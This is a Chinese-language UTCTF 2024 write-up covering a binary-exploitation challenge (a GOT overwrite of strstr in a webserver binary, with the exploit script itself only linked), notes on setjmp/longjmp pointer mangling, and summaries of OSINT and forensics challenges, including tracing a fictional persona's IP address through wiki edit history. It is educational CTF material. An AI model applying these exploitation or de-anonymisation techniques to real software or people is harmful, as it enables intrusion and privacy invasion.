0x405078 <strcmp@got.plt>:      0x00000000004010f0      0x0000000000401100
```
另外我们还需要`strstr(path, "flag.txt") == NULL`，并且函数调用过程中不能动`path`的内容（排除`free`, `strcpy`）。正式编写程序前可以gdb里先`set *(long*)0x4050e0 = 0x401090`这样先手动改好。经过调试，调用这个函数时`rdx==0` （不能content-length=0，否则rdx应该会被改为1），因此`fread`和`strncmp`是可以做到这一点的。

[exp](webserver/exp.py) 

flag: `utflag{an_educational_experience}`

> 不过这个flag我本地跑不通，研究了一下发现了两个问题：
> - sendfile那里，out_fd传成0了。也许远程环境下0和1不影响，但是本地调试0是stdin，往这里输出自然是看不到的。
> - 程序最后会因为heap corrupted而无法正常退出，因为我们覆盖header_count时顺便覆盖了version的最低位为00，所有最后cleanup时`free(version)`会报错，也是可以修的，多输出7个空字节，`free(0)`是不会报错的。另外`headers`最后也需要重置为0或者一个合法的堆地址。当然这个是次要原因，只是为了让程序正常退出而已。

#### 其他思考
- 这个题不是堆题，堆的使用都非常规范并且无法自由地进行写入（写入内容高度不可控）和free（有大量realloc这种比较复杂的操作）。因此浪费了大量时间在潜在堆利用，比如玩tcache和realloc。事实上最终exp是完全回避了不必要的realloc的。
- 涉及max, min宏（`content_length > max_length ? max_length : content_length`）应该注意到整数溢出问题，是否接受负数（虽然这个题没用上）。
- 这个题比较好的思考方式是，gets获得缓冲区溢出后，有哪些是真正意义上被我们控制的变量（后续直接使用了值而非重新赋值后使用的），这些变量互相组合能产生什么效果。如果一开始就注意到`headers[header_count] = h`，可能后面整个思路都是比较自然的。
- 这个题resolve_path相当无懈可击（和堆利用比较规范有关），而且后续几乎没有可控输入，反而在入口处（strstr）的判断非常脆弱。其实注意到任意写，到改写strstr的got表这步应该是很容易想到的。
- 最后，记一下笔记，这种用malloc出来的地址低位一点一点蹭，蹭出任意值的思路之前用的少。

- 其他试错过程学到的东西
  - 没有调用setbuf时，gets会在堆上建立一个0x1000（chunk_size=0x1010）的缓冲区，把所有输入缓冲进来。理论上，循环操作时改缓冲区可以做到动态调整后续轮次输入的作用。可能可以用于在没有输出时，在后续输入用到内部地址（还是很难用）
  - setjmp/longjmp，看下面。利用难度和绕过canary差不多
  - .comments段似乎会带编译器版本信息，比如这个题我看到是Ubuntu20.04的GCC，所以libc大概率是2.31。

#### 关于setjmp/longjmp
稍微学习了一下，这个是C语言中异常处理机制。调用setjmp时，直接返回0。但是当后续调用longjmp时，可以跨越函数直接跳转到调用setjmp时的地方，并且使得此时的返回值为指定值（当然不能是0，不然无法和第一次调用setjmp时区分）。

可以看这个示例代码。

```c
#include <stdio.h>
#include <setjmp.h>

static jmp_buf buf;

void second(void) {
    printf("second\n");         // 打印
    longjmp(buf,1);             // 跳回setjmp的调用处 - 使得setjmp返回值为1
}

void first(void) {
    second();
    printf("first\n");          // 不可能执行到此行
}

int main() {   
    if ( ! setjmp(buf) ) {
        first();                // 进入此行前，setjmp返回0
    } else {                    // 当longjmp跳转回，setjmp返回1，因此进入此行
        printf("main\n");       // 打印
    }

    return 0;
}
```

这里的核心在这个`jmp_buf`结构体，参考[这篇博客](https://www.hitzhangjie.pro/blog/2017-03-27-jmp_bufsetjmplongjmp/)，x64下这个结构体是：
```c
// defined in linux kernel
struct __jmp_buf {
 unsigned long __rbx; // 通用数据寄存器之一
 unsigned long __rsp; // 栈指针寄存器
 unsigned long __rbp; // 基址指针寄存器
 unsigned long __r12;
 unsigned long __r13;
 unsigned long __r14;
 unsigned long __r15;
 unsigned long __rip;
};

typedef struct __jmp_buf jmp_buf[1];

// redefined in glibc
struct __jmp_buf_tag
{
 /* NOTE: The machine-dependent definitions of `__sigsetjmp'
 assume that a `jmp_buf' begins with a `__jmp_buf' and that
 `__mask_was_saved' follows it. Do not move these members
 or add others before it. */
 __jmp_buf __jmpbuf; /* Calling environment. */
 int __mask_was_saved; /* Saved the signal mask? */
 __sigset_t __saved_mask; /* Saved signal mask. */
};
typedef struct __jmp_buf_tag jmp_buf[1];
```

看起来`jmp_buf`的前8个qword就是rbx,rsp,rbp,r12-r15,rip这些寄存器的值。但是事实上没这么简单，比如看下面的gdb调试断点的汇编：
```c
// ../sysdeps/x86_64/__longjmp.S
0x7ffff7dc9290 <__longjmp>                   endbr64 
0x7ffff7dc9294 <__longjmp+4>                 mov    r8, qword ptr [rdi + 0x30]
0x7ffff7dc9298 <__longjmp+8>                 mov    r9, qword ptr [rdi + 8]
0x7ffff7dc929c <__longjmp+12>                mov    rdx, qword ptr [rdi + 0x38]
0x7ffff7dc92a0 <__longjmp+16>                ror    r8, 0x11
0x7ffff7dc92a4 <__longjmp+20>                xor    r8, qword ptr fs:[0x30]
0x7ffff7dc92ad <__longjmp+29>                ror    r9, 0x11
0x7ffff7dc92b1 <__longjmp+33>                xor    r9, qword ptr fs:[0x30]
0x7ffff7dc92ba <__longjmp+42>                ror    rdx, 0x11
0x7ffff7dc92be <__longjmp+46>                xor    rdx, qword ptr fs:[0x30]
0x7ffff7dc92c7 <__longjmp+55>                test   dword ptr fs:[0x48], 2
0x7ffff7dc92d3 <__longjmp+67>                je     __longjmp+113                <__longjmp+113>
↓
0x7ffff7dc9301 <__longjmp+113>               nop    
0x7ffff7dc9302 <__longjmp+114>               mov    rbx, qword ptr [rdi]
0x7ffff7dc9305 <__longjmp+117>               mov    r12, qword ptr [rdi + 0x10]
0x7ffff7dc9309 <__longjmp+121>               mov    r13, qword ptr [rdi + 0x18]
0x7ffff7dc930d <__longjmp+125>               mov    r14, qword ptr [rdi + 0x20]
0x7ffff7dc9311 <__longjmp+129>               mov    r15, qword ptr [rdi + 0x28]
0x7ffff7dc9315 <__longjmp+133>               mov    eax, esi
0x7ffff7dc9317 <__longjmp+135>               mov    rsp, r8
0x7ffff7dc931a <__longjmp+138>               mov    rbp, r9
0x7ffff7dc931d <__longjmp+141>               nop    
0x7ffff7dc931e <__longjmp+142>               jmp    rdx
=============
0   0x7ffff7dc9290 __longjmp
1   0x7ffff7dc9222 siglongjmp+50
2         0x402244 main+349
3   0x7ffff7db0d90 __libc_start_call_main+128
4   0x7ffff7db0e40 __libc_start_main+128
5         0x40139e _start+4

```
可见实际上是包含一个`ror 11`（循环移位），与`fs:[0x30]`异或的过程的，这被称为指针保护，保护的就是对控制流非常敏感的`rsp, rbp, rip`。因而在无法泄露`fs:[0x30]`的前提下，我们既不能直接修改指针内容，也不能通过off-by-one rip指针的位置。


## 学习其他选手WP
### Forensics: OSINT3
参考：[https://warlocksmurf.github.io/posts/utctf2024/#osint-3-forensics](https://warlocksmurf.github.io/posts/utctf2024/#osint-3-forensics)

> 找到Cole Minerton的IP地址

之前提到linktree里是有一个[reddit](https://old.reddit.com/user/coleminerton)地址的，会把我们带到old reddit主页。在Youtube视频评论区里，CM提到自己计划速通一下Tiny Island Survival这款游戏，而reddit里提到他在这个游戏的sub reddit板块被提升为mod（管理员）。可以找到这个subreddit的[moderator页面](https://old.reddit.com/r/tinyislandsurvival/about/moderators)

右下角可以找到一个WIP中的Tiny Island Survival的Wiki，点进去是一个Fandom的[Wiki页面](https://tiny-island-survival.fandom.com/wiki/Tiny_Island_Survival_Wiki)。

很明显这个Wiki应该是CM本人维护的了，找一找编辑记录，很容易能找到一次编辑中CM忘了登录帐号了，那fandom就会记录它此时的IP地址写入编辑历史记录里，于是我们就找到了他的IP是`181.41.206.31`




### Forensics: Chippy Music
参考：[https://warlocksmurf.github.io/posts/utctf2024/#study-music-forensics](https://warlocksmurf.github.io/posts/utctf2024/#study-music-forensics)

评价为：Adobe Audition不行，Audacity是音频隐写唯一指定分析工具。

我卡在了一个很尴尬的地方，要把`yt-dlp`下载的音频导入audacity，首先需要安装FFMPEG依赖，但我当时一直没安装成功，就想着，反正Audition功能应该更强，获得的信息应该没什么变化吧。

今天我终于安装了audacity特供版FFMPEG（咱也不知道为什么github直接下载的build就是不行，可能太新了），把10小时超长音频导入audacity，等5分钟加载完后，赫然看到中间有一处峰值高度不一样（尖刺状），果断用ffmpeg切出来：`ffmpeg -i ./Chippy\ Music\ \[1Cbaa6dO2Yk\].m4a -ss 03:14:15 -t 00:00:35 ./chippy_clip.m4a`

然后我还专门打开Audition看了一下，毛都没有，估计是峰值归一化了吧，可还行？这还怎么做隐写？

切出来之后一听就是一些嘀嘀嘀的声音，估计是莫尔斯电码了。不过这个阶段Audition的频谱分析功能还是很强大的（UI好看很多），可以发现嘀嘀嘀的声音基本都是440Hz的，可以带通滤波切出来然后肉眼看
```
..-/-/..-./.-../.-/--./.-../-----/...-/...--/-/..../....-/-/-../.-/-./-.-./...--
U T F L A G L 0 V 3 T H 4 T D A N C 3 
```
`utflag{l0v3th4tdanc3}`

### Forensics: Gibberish

参考：[https://meashiri.github.io/ctf-writeups/posts/202403-utctf/#insanity-check-reimagined](https://meashiri.github.io/ctf-writeups/posts/202403-utctf/#insanity-check-reimagined)

- 首先应该要能发现字母里没有`b,z,t`。所以可能这是一种速记键盘，所以当然不会是已知的任何键盘布局。就跟逆向输入法的输入一样。搜索关键词：stenography on qwerty。有个速记软件叫Plover
- 多个键同时按下时，似乎简单取最长的那一组就行了，但是当一组多于6个键时，还需要松开按键再按下。
- 总之这个题是挺折磨的，不准备复现

### Forensics: Insanity Check: Reimagined

```
A reimagined version of our iconic Insanity Check: Redux challenge from UTCTF 2023.

The flag is in CTFd this time, but, as always, you'll have to work for it.

(Specifically the CTFd instance hosting utctf.live)

(This challenge does not require any brute-force -- as per the rules of the competition, brute-force tools like dirbuster are not allowed, and will not help you here.)

By Alex (@.alex_._ on Discord)
```

这就是所谓的究级藏*题了，只告诉你flag在这个CTFd主站上，找吧！

不过确实是我经验少了，这个题正确的路径应该是F12看请求了什么资源（看源代码会少些东西）。如果能注意到`favicon.svg`是个很可疑的文件就可以进入下一步了。

```xml
<svg width="384" height="576" viewBox="0 0 384 576" xmlns="http://www.w3.org/2000/svg" id="root">
<style>
@keyframes blink {
0.000% { fill: #FFFF; }
0.314% { fill: #FFF6; }
0.629% { fill: #FFFF; }
0.943% { fill: #FFF6; }
1.258% { fill: #FFFF; }
2.201% { fill: #FFF6; }
2.516% { fill: #FFF6; }
3.145% { fill: #FFFF; }
4.088% { fill: #FFF6; }
4.403% { fill: #FFF6; }
...
</style>
</svg>
```
如果画出颜色变化所在的时间差，这似乎是某种编码，可能是摩尔斯电码。具体观察可以解码出到底哪些组合是短、长、分隔符。
